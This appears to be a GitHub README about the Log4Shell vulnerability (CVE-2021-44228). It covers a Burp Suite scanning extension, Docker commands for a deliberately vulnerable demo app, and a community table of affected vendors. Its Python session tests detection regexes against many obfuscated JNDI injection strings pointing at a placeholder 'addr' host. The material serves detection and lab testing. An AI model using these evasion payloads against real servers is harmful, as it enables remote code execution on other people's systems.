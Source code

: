 ![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-44228/docs/Apache-Log4j-Logo-960x540.png)

## [Software](https://logging.apache.org/log4j/2.x/download.html)

- Explanation: [log4j](https://logging.apache.org/log4j/2.x/security.html)

- Collaboration: [burp-log4shell](https://github.com/silentsignal/burp-log4shell)

- - Thanks

## [More](https://businessinsights.bitdefender.com/technical-advisory-zero-day-critical-vulnerability-in-log4j2-exploited-in-the-wild)

## [CVE](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228)

# Protect yourself, before you break yourself... ;)

## Description:

Apache Log4j2 2.0-beta9 through 2.12.1 and 2.13.0 through 2.15.0 JNDI features used in configuration, log messages, and parameters do not protect against attacker controlled LDAP and other JNDI related endpoints. An attacker who can control log messages or log message parameters can execute arbitrary code loaded from LDAP servers when message lookup substitution is enabled. From log4j 2.15.0, this behavior has been disabled by default. From version 2.16.0, this functionality has been completely removed. Note that this vulnerability is specific to log4j-core and does not affect log4net, log4cxx, or other Apache Logging Services projects.

## Usage and explanation:

- Demonstration of scanning for `Log4j` vulnerability

- - NOTE: For advanced users!

- Manual installing the extension for BurpSuite

[![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-44228/docs/Screenshot%202021-12-17%20140538.png)](https://portswigger.net/bappstore/b011be53649346dd87276bca41ce8e8f)

## IMPORTANT:

- Check in to BApp Store if all components are deployed!

![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-44228/docs/Screenshot%202021-12-17%20141456-important.png)

-----------------------------------------------------------

```python
>>> from log4shell_regexes import *

>>> t = lambda s: [k for k in test(s)]
>>> tt = lambda s: [(k, list(v.keys())) for k, v in test_thorough(s).items()]

>>> t('${ jndi\t: addr\n}')
['SIMPLE_RE', 'ANY_RE', 'ANY_INCL_ESCS_RE', 'SIMPLE_OPT_RCURLY_RE', 'ANY_OPT_RCURLY_RE', 'ANY_INCL_ESCS_OPT_RCURLY_RE']

>>> t('${ jndi\t: addr\n')
['SIMPLE_OPT_RCURLY_RE', 'ANY_OPT_RCURLY_RE', 'ANY_INCL_ESCS_OPT_RCURLY_RE']

>>> t('\044%7B\\44{env:NOTHING:-j}\u0024{lower:N}\\u0024{lower:${upper:d}}}i:addr}')
['SIMPLE_ESC_VALUE_RE', 'NESTED_RE', 'NESTED_INCL_ESCS_RE', 'ANY_RE', 'ANY_INCL_ESCS_RE', 'SIMPLE_ESC_VALUE_OPT_RCURLY_RE', 'NESTED_OPT_RCURLY_RE', 'NESTED_INCL_ESCS_OPT_RCURLY_RE', 'ANY_OPT_RCURLY_RE', 'ANY_INCL_ESCS_OPT_RCURLY_RE']

>>> t('${base64:d2hvIHRob3VnaHQgYW55IG9mIHRoaXMgd2FzIGEgZ29vZCBpZGVhPwo=}')
['ANY_RE', 'ANY_INCL_ESCS_RE', 'ANY_OPT_RCURLY_RE', 'ANY_INCL_ESCS_OPT_RCURLY_RE']

>>> t('%24%7Bjnd%24%7Bupper%3A%C4%B1%7D%3Aaddr%7D')
['NESTED_INCL_ESCS_RE', 'ANY_INCL_ESCS_RE', 'NESTED_INCL_ESCS_OPT_RCURLY_RE', 'ANY_INCL_ESCS_OPT_RCURLY_RE']

>>> t('$%7B\u006a\\156di:addr\\x7d')
['ANY_INCL_ESCS_RE', 'ANY_INCL_ESCS_OPT_RCURLY_RE']

>>> t('${jndi:${lower:l}${lower:d}a${lower:p}://$a{upper:d}dr}')
['SIMPLE_RE', 'NESTED_RE', 'NESTED_INCL_ESCS_RE', 'ANY_RE', 'ANY_INCL_ESCS_RE', 'SIMPLE_OPT_RCURLY_RE', 'NESTED_OPT_RCURLY_RE', 'NESTED_INCL_ESCS_OPT_RCURLY_RE', 'ANY_OPT_RCURLY_RE', 'ANY_INCL_ESCS_OPT_RCURLY_RE']

>>> t('${jndi:dns://addr}')
['SIMPLE_RE', 'ANY_RE', 'ANY_INCL_ESCS_RE', 'SIMPLE_OPT_RCURLY_RE', 'ANY_OPT_RCURLY_RE', 'ANY_INCL_ESCS_OPT_RCURLY_RE']

>>> t('${${base64:am5kaTpsZGFwOi8vYWRkcgo=}}') # LOG4J2-2446
['NESTED_RE', 'NESTED_INCL_ESCS_RE', 'ANY_RE', 'ANY_INCL_ESCS_RE', 'NESTED_OPT_RCURLY_RE', 'NESTED_INCL_ESCS_OPT_RCURLY_RE', 'ANY_OPT_RCURLY_RE', 'ANY_INCL_ESCS_OPT_RCURLY_RE']

>>> t('${jndi:${lower:l}${lower:d}a${lower:p}://addr')
['SIMPLE_RE', 'NESTED_RE', 'NESTED_INCL_ESCS_RE', 'ANY_RE', 'ANY_INCL_ESCS_RE', 'SIMPLE_OPT_RCURLY_RE', 'NESTED_OPT_RCURLY_RE', 'NESTED_INCL_ESCS_OPT_RCURLY_RE', 'ANY_OPT_RCURLY_RE', 'ANY_INCL_ESCS_OPT_RCURLY_RE']

>>> t('${${::-j}nd${upper:ı}:rm${upper:ı}://addr}')
['NESTED_RE', 'NESTED_INCL_ESCS_RE', 'ANY_RE', 'ANY_INCL_ESCS_RE', 'NESTED_OPT_RCURLY_RE', 'NESTED_INCL_ESCS_OPT_RCURLY_RE', 'ANY_OPT_RCURLY_RE', 'ANY_INCL_ESCS_OPT_RCURLY_RE']

>>> t('${${env:NaN:-j}ndi${env:NaN:-:}${env:NaN:-l}dap${env:NaN:-:}//addr}')
['NESTED_RE', 'NESTED_INCL_ESCS_RE', 'ANY_RE', 'ANY_INCL_ESCS_RE', 'NESTED_OPT_RCURLY_RE', 'NESTED_INCL_ESCS_OPT_RCURLY_RE', 'ANY_OPT_RCURLY_RE', 'ANY_INCL_ESCS_OPT_RCURLY_RE']

>>> t('%5Cu002524%257Bjnd%2524%257Bupper%255Cu003a%255C%255C461%257D%253Aldap%253A%5C0452F%252Faddr%257D')
[]

>>> tt('%5Cu002524%257Bjnd%2524%257Bupper%255Cu003a%255C%255C461%257D%253Aldap%253A%5C0452F%252Faddr%257D')
[
	(
		'\\u002524%7Bjnd%24%7Bupper%5Cu003a%5C%5C461%7D%3Aldap%3A\\0452F%2Faddr%7D',
		['NESTED_INCL_ESCS_RE', 'ANY_INCL_ESCS_RE', 'NESTED_INCL_ESCS_OPT_RCURLY_RE', 'ANY_INCL_ESCS_OPT_RCURLY_RE']
	), (
		'${jnd${upper\\u003a\\\\461}:ldap://addr}',
		['SIMPLE_ESC_VALUE_RE', 'NESTED_RE', 'NESTED_INCL_ESCS_RE', 'ANY_RE', 'ANY_INCL_ESCS_RE', 'SIMPLE_ESC_VALUE_OPT_RCURLY_RE', 'NESTED_OPT_RCURLY_RE', 'NESTED_INCL_ESCS_OPT_RCURLY_RE', 'ANY_OPT_RCURLY_RE', 'ANY_INCL_ESCS_OPT_RCURLY_RE']
	), (
		'${jnd${upper:\\461}:ldap://addr}',
		['SIMPLE_ESC_VALUE_RE', 'NESTED_RE', 'NESTED_INCL_ESCS_RE', 'ANY_RE', 'ANY_INCL_ESCS_RE', 'SIMPLE_ESC_VALUE_OPT_RCURLY_RE', 'NESTED_OPT_RCURLY_RE', 'NESTED_INCL_ESCS_OPT_RCURLY_RE', 'ANY_OPT_RCURLY_RE', 'ANY_INCL_ESCS_OPT_RCURLY_RE']
	), (
		'${jnd${upper:ı}:ldap://addr}',
		['NESTED_RE', 'NESTED_INCL_ESCS_RE', 'ANY_RE', 'ANY_INCL_ESCS_RE', 'NESTED_OPT_RCURLY_RE', 'NESTED_INCL_ESCS_OPT_RCURLY_RE', 'ANY_OPT_RCURLY_RE', 'ANY_INCL_ESCS_OPT_RCURLY_RE']
	)
]
```

## Docker vulnerable app:

```docker
cd vuln_app/CVE-2021-44228-VULN-APP/
docker build -t log4j-shell-poc .
docker run --network host log4j-shell-poc
```
- Listening on port `8080`

 ## Support for vulnerable machine APP by 
 
 
 - `kozmer`


## Support for Burp module by


- `silentsignal`


## Demo, testing, and debugging by


- `nu11secur1ty`


## Video and reproduce of the vulnerability 

- NOTE: The test is outside of the credentials for login! ;)

[href](https://streamable.com/z1qkax)

-------------------------------------------------------------------------------------------------------------

Log4j impact on manufacturers and components summary from the Internet community. If Manufacturer or Component is not verified, it does not have screenshots or references to prove that it is affected.

## The List

| Manufacturer/Component                   | Notes | Verified |
| ---------------------------------------- | ----- | -------- |
| [Apple](Log4jAttackSurface/pages/apple.md)                  |       | TRUE     |
| [Tencent](Log4jAttackSurface/pages/Tencent.md)              |       | TRUE     |
| [Steam](Log4jAttackSurface/pages/Steam.md)                  |       | TRUE     |
| [Twitter](Log4jAttackSurface/pages/Twitter.md)              |       | TRUE     |
| [Baidu](Log4jAttackSurface/pages/Baidu.md)                  |       | TRUE     |
| [DIDI](Log4jAttackSurface/pages/DIDI.md)                    |       | TRUE     |
| [JD](Log4jAttackSurface/pages/JD.md)                        |       | TRUE     |
| [NetEase](Log4jAttackSurface/pages/NetEase.md)              |       | TRUE     |
| [CloudFlare](Log4jAttackSurface/pages/CloudFlare.md)        |       | TRUE     |
| [Amazon](Log4jAttackSurface/pages/Amazon.md)                |       | TRUE     |
| [Tesla](vpages/Tesla.md)                  |       | TRUE     |
| [Apache Solr](Log4jAttackSurface/pages/ApacheSolr.md)       |       | TRUE     |
| [Apache Druid](Log4jAttackSurface/pages/ApacheDruid.md)     |       | TRUE     |
| [Apache Flink](Log4jAttackSurface/pages/ApacheFlink.md)     |       | FALSE    |
| [Apache Struts2](Log4jAttackSurface/pages/ApacheStruts2.md) |       | TRUE     |
| [flume](Log4jAttackSurface/pages/flume.md)                  |       | FALSE    |
| [dubbo](Log4jAttackSurface/pages/dubbo.md)                  |       | FALSE    |
| [IBM Qradar SIEM](Log4jAttackSurface/pages/IBM.md)          |       | TRUE     |
| [PaloAlto Panorama](Log4jAttackSurface/pages/PaloAlto.md)   |       | TRUE     |
| [Redis](Log4jAttackSurface/pages/Redis.md)                  |       | FALSE    |
| [logstash](Log4jAttackSurface/pages/logstash.md)            |       | FALSE    |
| [ElasticSearch](Log4jAttackSurface/pages/ElasticSearch.md)  |       | TRUE     |
| [kafka](Log4jAttackSurface/pages/kafka.md)                  |       | FALSE    |
| [ghidra](Log4jAttackSurface/pages/ghidra.md)                |       | TRUE     |
| [ghidra server](Log4jAttackSurface/pages/ghidraServer.md)   |       | TRUE     |
| [Minecraft](Log4jAttackSurface/pages/Minecraft.md)          |       | TRUE     |
| [PulseSecure](Log4jAttackSurface/pages/PulseSecure.md)      |       | TRUE     |
| [UniFi](Log4jAttackSurface/pages/UniFi.md)                  |       | TRUE     |
| [VMWare](Log4jAttackSurface/pages/VMWare.md)                |       | TRUE     |
| [Blender](Log4jAttackSurface/pages/Blender.md)              |       | TRUE     |
| [Google](Log4jAttackSurface/pages/Google.md)                  |       | TRUE     |
| [Webex](Log4jAttackSurface/pages/Webex.md)                  |       | TRUE     |
| [LinkedIn](Log4jAttackSurface/pages/LinkedIn.md)                  |       | TRUE     |
| [VMWarevCenter](Log4jAttackSurface/pages/VMWarevCenter.md)                  |       | TRUE     |
| [Speed camera LOL](Log4jAttackSurface/pages/SpeedCamera.md)                  |       | TRUE     |

## [More](https://github.com/YfryTchsGD/Log4jAttackSurface)


## [Information](https://logging.apache.org/log4j/2.x/)

## [Scanner](https://github.com/fullhunt/log4j-scan)
